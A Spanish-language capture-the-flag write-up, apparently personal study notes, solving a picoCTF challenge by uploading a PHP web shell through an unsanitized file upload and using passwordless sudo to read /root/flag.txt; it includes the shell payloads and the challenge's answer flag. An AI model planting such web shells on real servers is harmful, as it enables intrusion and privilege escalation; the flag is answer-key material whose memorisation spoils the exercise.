 #Software #Hacking #WebExplotation #Web #Internet 
Hecho por: [[Yo|Adrián Fernando Cuevas Solís]]
# Definición
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.You can access the web application [here](http://standard-pizzas.picoctf.net:60334/)!
# Hints
- File upload was not sanitized
- Whenever you get a shell on a remote machine, check `sudo -l`
# Solución
Primero entramos a la pagina web y observamos que podemos ingresar archivos, al subirlo nos damos cuenta que estamos trabajando con [[PHP]]: [standard-pizzas.picoctf.net:60334/upload.php](http://standard-pizzas.picoctf.net:60334/upload.php)

Por lo que nos apoyamos de [[nano]] para crear un código malicioso.
```bash
AsumomezaC-picoctf@webshell:~$ nano shell.php
```
Seguimos la pista y usamos '[[sudo#4. Uso de `sudo -l` en un servidor SSH|sudo -l]]':
```php
<?php echo exec("sudo -l");?>
```

Y nos regresa este mensaje:
>The file shell.php has been uploaded Path: uploads/shell.php

Por lo cual nos dirigimos a esta dirección para ver que nos dice esto:
(ALL) NOPASSWD: ALL

Ahora sabemos que no se cuenta con contraseña (no hay seguridad), así que modificamos el archivo php para acceder a la bandera:
```php
<?php echo exec("sudo cat /root/flag.txt");?>
```
Y así obtenemos la bandera.
## Respuesta
picoCTF{wh47_c4n_u_d0_wPHP_5f3c22c0}